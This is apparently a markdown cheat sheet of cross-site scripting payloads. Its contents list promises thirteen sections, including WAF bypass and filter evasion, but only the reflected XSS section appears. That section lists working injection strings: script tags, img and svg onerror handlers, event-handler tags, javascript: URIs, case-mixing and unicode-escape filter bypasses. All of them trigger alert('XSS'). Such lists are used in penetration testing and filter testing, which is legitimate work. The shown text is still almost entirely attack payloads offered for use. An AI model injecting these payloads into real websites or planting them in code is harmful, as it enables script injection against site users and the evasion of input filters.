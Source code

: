 ```markdown
# Ultimate XSS Payload Cheat Sheet

## Table of Contents
1. [Reflected XSS Payloads](#reflected-xss-payloads)
2. [Persistent XSS Payloads](#persistent-xss-payloads)
3. [Blind XSS Payloads](#blind-xss-payloads)
4. [DOM-based XSS Payloads](#dom-based-xss-payloads)
5. [Classic XSS Payloads](#classic-xss-payloads)
6. [Filter Evasion Techniques](#filter-evasion-techniques)
7. [Advanced Persistent XSS](#advanced-persistent-xss)
8. [Framework-Specific Payloads](#framework-specific-payloads)
9. [Polyglot XSS Payloads](#polyglot-xss-payloads)
10. [WAF Bypass Payloads](#waf-bypass-payloads)
11. [HTML5-Specific Payloads](#html5-specific-payloads)
12. [Special Context Payloads](#special-context-payloads)
13. [Prevention Bypass Techniques](#prevention-bypass-techniques)

## Reflected XSS Payloads
Payloads that execute immediately when reflected in the response

### Basic Payloads
```html
<script>alert('XSS')</script>
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
```

### Bypass Basic Filters
```html
<ScRiPt>alert('XSS')</ScRiPt>
<img """><script>alert('XSS')</script>">
<IMG SRC=javascript:alert('XSS')>
```

### Event Handlers
```html
<body onload=alert('XSS')>
<iframe onload=alert('XSS')>
<input type="text" onfocus=alert('XSS') autofocus>
<marquee onstart=alert('XSS')>
```

### JavaScript URI
```html
<a href="javascript:alert('XSS')">Click</a>
<iframe src=javascript:alert('XSS')>
```

### Unicode/Encoding Bypasses
```html
<script>\u0061lert('XSS')</script>
<img src=x onerror=\u0061lert('XSS')>
```
